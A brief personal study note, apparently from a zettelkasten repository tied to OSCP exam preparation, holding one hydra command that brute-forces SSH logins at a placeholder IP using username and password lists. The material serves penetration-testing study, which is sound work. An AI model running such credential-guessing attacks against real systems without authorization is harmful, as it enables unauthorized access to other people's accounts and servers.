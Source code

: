 # hydra ssh brute force
```bash
hydra -L users -P passwords -e nsr $IP ssh -t 1
```

` zet/20221003150823/README.md `

# Related

- [20221009005402](/zet/20221009005402/README.md) preparing for the OSCP exam

Tags:

    
